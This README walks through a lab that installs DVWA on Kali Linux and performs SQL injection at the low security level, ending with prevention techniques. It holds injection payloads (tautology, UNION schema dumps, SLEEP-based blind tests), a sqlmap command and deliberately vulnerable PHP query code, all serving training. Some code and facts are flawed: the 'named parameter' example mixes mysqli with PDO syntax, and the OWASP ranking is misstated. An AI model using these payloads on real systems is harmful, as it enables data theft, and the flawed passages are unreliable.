




# SQL Injection on DVWA (Low Security) - Comprehensive Guide

## Objective
The objective of this task is to demonstrate an SQL Injection vulnerability using DVWA (Damn Vulnerable Web Application) with the security level set to LOW. Through practical hands-on experimentation, we will:
- Understand how SQL Injection works
- Bypass authentication using SQL injection
- Retrieve unauthorized data from the database
- Analyze the attack methodology
- Learn defensive techniques to prevent such vulnerabilities

This exercise teaches critical web security concepts that apply to real-world application security testing.

---

# Tool Used
| Component | Purpose |
|-----------|---------|
| **DVWA** | Damn Vulnerable Web Application - Intentionally vulnerable web app |
| **Kali Linux / Ubuntu** | Linux operating system with penetration testing tools |
| **Apache Web Server** | HTTP server hosting DVWA |
| **PHP** | Backend scripting language (server-side code) |
| **MySQL / MariaDB** | Relational database for storing application data |

---

# Introduction to SQL Injection

## What is SQL Injection?

SQL Injection is a web security vulnerability that allows attackers to manipulate database queries by injecting malicious SQL code through user input fields.

### How It Happens

SQL Injection occurs when:
1. **User Input is Directly Inserted** into SQL queries without validation
2. **No Input Sanitization** - Input is not checked or cleaned
3. **No Parameterized Queries** - Queries are built by string concatenation
4. **Insufficient Authorization Checks** - Database permissions are too broad

### Simple Vulnerable Code Example

**Vulnerable PHP Code (NEVER USE IN PRODUCTION):**
```php
<?php
$user_id = $_GET['id'];  // Get user input directly
$query = "SELECT * FROM users WHERE user_id = '" . $user_id . "'";
$result = mysqli_query($link, $query);
?>
```

**Problem:** The `$user_id` variable is directly concatenated into the SQL query without validation.

---

# Why SQL Injection is Extremely Dangerous

SQL Injection can allow attackers to:

## 1. Bypass Authentication ⚠️
- Log in without valid credentials
- Access admin accounts
- Impersonate other users

## 2. Access Sensitive Data 📊
- Steal customer information
- Access financial records
- Extract trade secrets
- Retrieve confidential documents

## 3. Modify or Delete Data ❌
- Alter financial records
- Delete customer accounts
- Manipulate transaction history
- Corrupt database integrity

## 4. Gain Unauthorized Access 🚀
- Execute system commands
- Establish backdoors
- Escalate privileges
- Compromise the entire system

## 5. Real-World Impact 💰
- **Sony Pictures (2014):** Massive data breach exposing millions of records
- **Yahoo (2013-14):** 3 billion user accounts compromised
- **LinkedIn (2012):** 6.5 million passwords exposed
- **TalkTalk (2015):** 157,000 customers' data stolen, £60m fine

---

# Lab Environment Setup

## System Architecture

```
┌─────────────────────────────────────────────┐
│         Kali Linux System                   │
├─────────────────────────────────────────────┤
│ ┌────────────────────────────────────────┐ │
│ │     Apache Web Server (Port 80)       │ │
│ │  ┌──────────────────────────────────┐ │ │
│ │  │   DVWA Application                │ │ │
│ │  │  ┌────────────────────────────┐  │ │ │
│ │  │  │   PHP Backend              │  │ │ │
│ │  │  │  (Database Queries)        │  │ │ │
│ │  │  └────────────────────────────┘  │ │ │
│ │  └──────────────────────────────────┘ │ │
│ └────────────────────────────────────────┘ │
│ ┌────────────────────────────────────────┐ │
│ │   MySQL/MariaDB (Port 3306)            │ │
│ │  (Stores user data, credentials, etc)  │ │
│ └────────────────────────────────────────┘ │
└─────────────────────────────────────────────┘
         ↑
         │ Browser (Firefox/Chrome)
         │
    Attacker / Student
```

---

# Step-by-Step Installation and Configuration

## Step 1: Update System Packages

### Command
```bash
sudo apt update
```

### Output
```text
Get:1 http://kali.download/kali kali-rolling InRelease [34.0 MB]
Get:2 http://kali.download/kali kali-rolling/main Sources [1.2 GB]
Fetched 74.4 MB in 15s (5,000 kB/s)
Reading package lists... Done
2680 packages can be upgraded.
```

### Purpose
- Refresh package repository metadata
- Get latest available versions
- Ensure security patches are available

---

## Step 2: Install Required Components

### Command
```bash
sudo apt install apache2 mariadb-server php php-mysqli libapache2-mod-php git -y
```

### Component Breakdown

| Package | Purpose | Function |
|---------|---------|----------|
| **apache2** | Web Server | Hosts DVWA application |
| **mariadb-server** | Database Server | Stores user data |
| **php** | Server-side scripting | Processes DVWA backend logic |
| **php-mysqli** | PHP-MySQL Extension | Enables PHP↔MySQL communication |
| **libapache2-mod-php** | Apache PHP Module | Integrates PHP with Apache |
| **git** | Version Control | Clone DVWA from GitHub repository |

### Output
```text
Setting up apache2 (2.4.52-1) ...
Setting up mariadb-server (10.6.5) ...
Setting up php (7.4.26-1) ...
Setting up php-mysqli (7.4.26-1) ...
Setting up libapache2-mod-php (7.4.26-1) ...
Setting up git (1.8.3.1) ...
Processing triggers for ufw...
```

---

## Step 3: Start and Enable Services

### Commands
```bash
sudo systemctl enable apache2 --now
sudo systemctl enable mariadb --now
```

### Explanation

| Command | Purpose | Result |
|---------|---------|--------|
| **enable** | Start service at boot time | Persistent across reboots |
| **--now** | Start service immediately | Service running now |

### Verify Services are Running
```bash
sudo systemctl status apache2
sudo systemctl status mariadb
```

---

## Step 4: Download DVWA

### Commands
```bash
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
```

### Explanation
- `/var/www/html` - Apache's default web root
- `git clone` - Download DVWA repository from GitHub
- This creates `/var/www/html/DVWA/` directory with all files

### Expected Output
```text
Cloning into 'DVWA'...
remote: Enumerating objects: 3452, done.
remote: Counting objects: 100% (154/154), done.
remote: Compressing objects: 100% (99/99), done.
Receiving objects: 100% (3452/3452), 92.34 MiB | 1.50 MiB/s
Receiving deltas: 100% (2243/2243), done.
```

---

## Step 5: Set File Permissions

### Commands
```bash
sudo chown -R www-data:www-data /var/www/html/DVWA
sudo chmod -R 755 /var/www/html/DVWA
```

### Explanation

| Command | Purpose | Why Important |
|---------|---------|---------------|
| **chown** | Change ownership to www-data | Apache process can read/write files |
| **chmod 755** | Set read/execute permissions | Prevent unauthorized modifications |

**Permission Breakdown:**
- 7 (Owner) = read + write + execute
- 5 (Group) = read + execute
- 5 (Others) = read + execute

---

## Step 6: Initialize the Database

### Commands
```bash
sudo mysql
```

### SQL Commands to Execute
```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

### **Screenshot Reference:**


### Detailed Explanation

| SQL Command | Purpose |
|------------|---------|
| **CREATE DATABASE dvwa** | Creates database named "dvwa" |
| **CREATE USER** | Creates database user for DVWA application |
| **IDENTIFIED BY 'password'** | Sets user password (username: dvwa, password: password) |
| **GRANT ALL PRIVILEGES** | Gives full database access to this user |
| **FLUSH PRIVILEGES** | Reloads MySQL privilege tables |

---

## Step 7: Configure DVWA Settings

### Commands
```bash
cd /var/www/html/DVWA/config
sudo cp config.inc.php.dist config.inc.php
sudo nano config.inc.php
```

### Configuration File Changes

**Locate and update these settings:**

```php
$_DVWA['db_server']   = '127.0.0.1';      // Database server
$_DVWA['db_database'] = 'dvwa';           // Database name
$_DVWA['db_user']     = 'dvwa';           // Database user
$_DVWA['db_password'] = 'password';       // Database password
$_DVWA['db_port']     = '3306';           // MySQL port
```

### **Screenshot Reference:**


---

## Step 8: Restart Apache Web Server

### Command
```bash
sudo systemctl restart apache2
```

### Verification
```bash
sudo systemctl status apache2
```

---

# Accessing DVWA

## Step 9: Open DVWA in Browser

### URL
```
http://localhost/DVWA
```

### **Screenshot Reference:**



### What You'll See
- DVWA login form
- Request to initialize database
- Notice about security level

---

## Step 10: Initial Setup and Login

### Create Database Tables
1. Click on the "Create / Reset Database" button
2. This initializes database schema with test data

### **Screenshot References:**


### Default Credentials
```
Username: admin
Password: password
```

### **Screenshot Reference:**


---

## Step 11: Set Security Level to LOW

### Navigation Steps
1. Log in with admin/password
2. Click on "DVWA Security" in the menu
3. Select "LOW" from the dropdown
4. Click "Submit"

### **Screenshot References:**


### Why Set to LOW?
- **LOW:** Vulnerable code, no defenses (perfect for learning)
- **MEDIUM:** Some filters, but bypassable
- **HIGH:** Strong protections, harder to exploit
- **IMPOSSIBLE:** Properly defended, no vulnerabilities

---

# Performing SQL Injection Attack

## Step 12: Navigate to SQL Injection Module

### Steps
1. Select "SQL Injection" from DVWA menu
2. You'll see a form with a "User ID" input field
3. This input field is vulnerable to SQL injection

### **Screenshot Reference:**


---

## Normal Input - Baseline Test

### Test 1: Enter a Valid User ID

**Input:**
```
1
```

### Expected Output
```text
ID: 1
First Name: Admin
Surname: Admin
```

### **Screenshot Reference:**


### What Happened Behind the Scenes

**Generated SQL Query:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

**Query Execution:**
1. SQL query executed
2. Database searches for record where user_id = '1'
3. Found: "Admin Admin" record
4. Results displayed

**This is the NORMAL, EXPECTED behavior.**

---

## SQL Injection - Exploitation Attempt 1

### Test 2: SQL Injection Payload

**Malicious Input:**
```
1' OR '1'='1
```

### **Screenshot Reference:**


### What the Attacker is Trying to Do

**Generated SQL Query (with injection):**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

### Query Analysis

**Breaking Down the Injected Query:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
                                                            ↑         ↑
                                                     Original query   Injected SQL
```

**Logical Breakdown:**
1. `user_id = '1'` - Check if user_id equals 1
2. `OR` - OR logical operator (if first condition false, try second)
3. `'1'='1'` - This is ALWAYS TRUE (string "1" equals string "1")

### Why This Works

**Truth Table:**
```
WHERE user_id = '1' OR '1'='1'
      ↓                 ↓
      FALSE or      TRUE
      ↓
      TRUE (condition satisfied for ALL rows!)
```

Since `'1'='1'` is ALWAYS true, the WHERE clause becomes true for EVERY ROW in the database.

### Expected Output
```text
ID: 1
First Name: Admin
Surname: Admin
...
ID: 2
First Name: Gordon
Surname: Brown
...
ID: 3
First Name: Hack
Surname: Me
...
ID: 4
First Name: Pablo
Surname: Picasso
...
ID: 5
First Name: Bob
Surname: Smith
```

**Result: ALL users in the database are displayed!**

---

## SQL Injection - Advanced Exploitation

### Test 3: Using Comments to Bypass Validation

**Input:**
```
1' OR '1'='1' --
```

### Generated Query
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' -- ';
```

### Explanation
- `--` is SQL comment syntax
- Everything after `--` is ignored
- Allows bypassing rest of query

### Test 4: UNION-based SQL Injection

**Input:**
```
1' UNION SELECT table_name, column_name FROM information_schema.columns --
```

**Purpose:** Extract database schema and column names

### Test 5: Time-based Blind SQL Injection

**Input:**
```
1' AND SLEEP(5) --
```

**Purpose:** Determine if injection is possible when no error messages are shown

---

# How SQL Injection Works - Technical Deep Dive

## Attack Flow Diagram

```
┌──────────────────────────────────┐
│  Attacker Input Form             │
│  User ID: 1' OR '1'='1'          │
└──────────────┬───────────────────┘
               │ (Unsanitized)
               ↓
┌──────────────────────────────────┐
│  PHP Code (Vulnerable)           │
│  $query = "SELECT ... WHERE      │
│           user_id = '" .         │
│           $_GET['id'] . "'";     │
└──────────────┬───────────────────┘
               │ (String concatenation)
               ↓
┌──────────────────────────────────┐
│  Final SQL Query Sent            │
│  SELECT * FROM users WHERE       │
│  user_id = '1' OR '1'='1'        │
└──────────────┬───────────────────┘
               │
               ↓
┌──────────────────────────────────┐
│  Database Interpretation         │
│  WHERE condition: TRUE for ALL   │
│  Matches: 5 users (entire table) │
└──────────────┬───────────────────┘
               │
               ↓
┌──────────────────────────────────┐
│  Unauthorized Data Returned      │
│  All 5 users displayed           │
│  Attacker sees credentials       │
└──────────────────────────────────┘
```

---

# Vulnerability Analysis

## Root Cause Analysis

### Primary Vulnerabilities

1. **No Input Validation** ❌
   - User input accepted without verification
   - No whitelist/blacklist checking
   - No data type enforcement

2. **Direct Query Construction** ❌
   - Input concatenated directly into SQL string
   - No separation between code and data
   - String interpolation is dangerous

3. **No Prepared Statements** ❌
   - SQL query not pre-compiled
   - Database doesn't know what's code vs data
   - Attacker can inject code

### Code Flow
```
User Input → PHP String Concatenation → Raw SQL → Database
    ↓                                                   ↓
Attacker                            Database executes as code
Controls                            (Not as data!)
Content
```

---

# Security Impact Assessment

## Severity: CRITICAL (CVSS 9.0+)

### What an Attacker Can Do

With SQL Injection on this application, attackers can:

1. **Bypass Login** 🔓
   - Access without credentials
   - Assume admin identity

2. **Steal Data** 💾
   - Customer information
   - Financial records
   - Trade secrets

3. **Modify Data** ✏️
   - Change prices/amounts
   - Create unauthorized accounts
   - Alter transactions

4. **Delete Data** 🗑️
   - Remove audit logs
   - Destroy evidence
   - Corrupt data integrity

5. **Execute Commands** 🚀
   - Some databases (e.g., MSSQL) support xp_cmdshell
   - Execute system commands
   - Compromise entire server

---

# Prevention Techniques - Defenses

## 1. Prepared Statements (MOST IMPORTANT) ✅

**Secure PHP Code Example:**
```php
<?php
$user_id = $_GET['id'];  // Even if malicious

// SAFE: Using prepared statement
$stmt = $mysqli->prepare("SELECT * FROM users WHERE user_id = ?");
$stmt->bind_param("i", $user_id);  // "i" = integer type
$stmt->execute();
$result = $stmt->get_result();

// Database knows: "?" is a parameter, not code
// Even if $user_id = "1' OR '1'='1'", it's treated as literal value
?>
```

**Why It Works:**
- SQL query structure is compiled FIRST
- Parameter placeholder `?` is defined in advance
- User input inserted AFTER query structure is set
- Database can't interpret input as code

## 2. Parameterized Queries ✅

```php
<?php
// Using named parameters
$stmt = $mysqli->prepare("SELECT * FROM users WHERE user_id = :id");
$stmt->bindParam(':id', $user_id, PDO::PARAM_INT);
$stmt->execute();
?>
```

## 3. Input Validation ✅

```php
<?php
$user_id = $_GET['id'];

// Validate: Must be numeric only
if (!is_numeric($user_id)) {
    die("Invalid User ID");
}

// Validate: Must be positive integer
if ($user_id < 1 || $user_id > 999999) {
    die("User ID out of range");
}

// Type casting for extra safety
$user_id = (int) $user_id;

// Now it's safe to use
$query = "SELECT * FROM users WHERE user_id = $user_id";
?>
```

## 4. Least Privilege Database Accounts ✅

```sql
-- Create user with minimal permissions
CREATE USER 'app'@'localhost' IDENTIFIED BY 'strongpassword';

-- Grant only SELECT on specific tables
GRANT SELECT ON database.users TO 'app'@'localhost';

-- Do NOT grant:
-- - DROP privileges
-- - ALTER privileges
-- - CREATE privileges
-- - DELETE/UPDATE (unless absolutely needed)
```

## 5. Web Application Firewall (WAF) ✅

- ModSecurity for Apache
- Rules to detect/block SQL injection patterns
- Geolocation-based blocking
- Rate limiting

## 6. Hide Error Messages ✅

```php
<?php
// Development: Show errors
ini_set('display_errors', 1);

// Production: Hide errors from users
ini_set('display_errors', 0);
ini_set('log_errors', 1);

// Log errors to file instead
error_log("Database error: " . $error);
?>
```

**Why:** Error messages can reveal database structure to attackers.

## 7. Use ORM Frameworks ✅

**Laravel Eloquent Example:**
```php
// Eloquent automatically uses prepared statements
$user = User::where('id', $user_id)->first();
// Injection impossible with ORM
```

**Advantages:**
- Automatically uses prepared statements
- Less error-prone
- Cleaner code

## 8. Security Testing ✅

```bash
# SQL injection testing
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1" --dbs

# Regular security audits
# Penetration testing
# Code review
# SAST (Static Application Security Testing)
```

---

# OWASP Top 10 Context

SQL Injection is **#1** in the OWASP Top 10 (regularly):
- **A03:2021 - Injection**
- Includes SQL Injection, NoSQL Injection, OS Command Injection
- Most common and severe vulnerability class
- Affects millions of web applications

---

# Files Included

- **sql_injection_exploit.sh** - Bash script with demonstration commands
- **README.md** - This comprehensive guide
- **Screenshots/** - Visual documentation (12+ screenshots)
  - DVWA Configuration
  - Installation Process
  - Security Level Setup
  - SQL Injection Exploitation
  - Query Results

---

# Lab Exercises

## Exercise 1: Basic Injection
Try entering: `1' OR '1'='1`
Record the results.

## Exercise 2: Comment-based Injection
Try entering: `1' --`
What happens? Why?

## Exercise 3: UNION-based Injection
Try entering: `1' UNION SELECT 1,2 --`
What data is returned?

## Exercise 4: Advanced Exploration
Try entering: `1' AND '1'='1`
Compare with `1' AND '1'='2`
What's the difference?

## Exercise 5: Error-based Injection
Try entering: `1 AND (SELECT * FROM users) --`
What error message is revealed?

---

# Conclusion

This task demonstrated:
- ✅ How to install and configure DVWA
- ✅ How SQL Injection vulnerabilities occur
- ✅ Practical exploitation techniques
- ✅ Why proper defenses are critical
- ✅ How to prevent SQL Injection

**Key Takeaway:** Always use prepared statements. Period. No exceptions. Any other approach is vulnerable.

This is NOT theoretical knowledge—SQL Injection is **actively exploited** in real attacks, costing organizations millions in damages. Understanding how it works is the first step to preventing it.

# Conclusion

This experiment demonstrated how SQL Injection occurs due to insecure coding practices. By injecting a simple logical condition, we manipulated the SQL query to return all records. This highlights the importance of input validation and secure query handling in real-world applications.